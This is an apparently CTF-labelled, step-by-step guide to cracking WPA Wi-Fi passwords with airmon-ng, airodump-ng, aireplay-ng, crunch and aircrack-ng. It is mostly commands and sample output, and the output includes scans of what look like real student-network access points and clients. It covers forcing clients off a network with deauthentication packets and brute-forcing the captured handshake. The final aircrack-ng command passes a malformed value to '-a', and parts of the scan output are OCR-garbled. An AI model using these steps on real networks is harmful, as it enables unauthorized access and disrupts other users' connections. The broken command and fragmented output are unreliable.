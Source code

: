 # CTF: WIFI Password Cracker Documentation

## Overview

This document provides a step-by-step guide to crack a WIFI password using various tools. This is intended for educational purposes and should only be used on networks you have permission to test.

## Tools Required

- `iwconfig`: To check network interfaces.
- `airmon-ng`: To enable monitor mode.
- `airodump-ng`: To capture network traffic.
- `aireplay-ng`: To deauthenticate users.
- `aircrack-ng`: To crack the WIFI password.
- `crunch`: To create a wordlist (optional).

## Steps

### 1. Check Network Interface

First, identify the network interfaces available on your system.

```sh
iwconfig
```

### 2. Switch to Monitor Mode

Enable monitor mode on the desired network interface.

```sh
airmon-ng start wlan0

iwconfig
```

**Example Output:**

```text
lo        no wireless extensions.

br-d212c57f6d84  no wireless extensions.

br-314938f5e24  no wireless extensions.

docker0   no wireless extensions.

wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.427 GHz  
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

### 3. Check for Open Network Connections

Scan for available networks.

```sh
airodump-ng wlan0mon
```

**Example Output:**

```text
[CH  3 ][ Elapsed: 1 min ][ 2024-11-07 23:29] 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER 

 AUTH

 ESSID

 B0:BE

:

 76:EB:BE:E4   -1        0        0    0   1   -1                    <length:  0>                            
 E6:63:DA:6E:9D:05  -16        0        0    0  11  130   OPN              XXX_Student_WiFi                        
 48:E6:63:A3:03:C5  -25        1        0    0   5  720   WPA3 CCMP   SAE  low_2.4G.the101_UMJK                    
 E6:63:DA:6E:9C:D2  -86        1        6    1  11  130   OPN              XXX_Student_WiFi                                                   
...

 BSSID              STATION            PWR    Rate    Lost   Frames  Notes  Probes

 E6:63:DA:6E:9F:80  F6:A0:6D:74:FF:9C  -71    6e- 1e     0      275                                                 
 E6:63:DA:6E:9F:80  7A:2E:14:F4:C1:4D  -29    0 - 1      0        7         XXX_Student_WiFi     
...
```

### 4. Monitor Traffic to a Specific Network Channel

Capture traffic on a specific channel and BSSID.

```sh
airodump-ng -c CHANNEL_ID --bssid CHANNEL_BSSID -w /root wlan0mon
```

### 5. Deauthenticate a User from the Network Channel

Send deauthentication packets to a user on the network.

```sh
aireplay-ng --deauth DEAUTH_COUNT -a CHANNEL_BSSID wlan0mon
```

### 6. Capture the Handshake

The handshake is captured during the monitoring process. Ensure you have captured the handshake before proceeding to crack the password. The handshake file is typically saved with a `.cap` extension.

**Example Output:**

![HandShake](handshake.png)

### 7. Create a Wordlist

If you do not have a wordlist, you can create one using tools like `crunch`.

```sh
crunch 8 8 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 -o wordlist.txt
```

This command generates a wordlist with all possible combinations of 8 characters using the specified character set. You can also get some good wordlists to extend to from this [link](https://github.com/TebogoYungMercykay/Thousands_Of_Resources_Related_To_H4cking/tree/master/cracking_passwords/more_wordlists).

### 8. Crack the WIFI Password with Your Wordlist

After capturing the handshake, use a wordlist to crack the password.

```sh
sudo aircrack-ng -a 272:9A:0C:44:4A:82 -w wordlist.txt handshake.cap
```

## Notes

- Ensure you have the necessary permissions to perform these actions on the network.
- This guide is for educational purposes only.

---
---
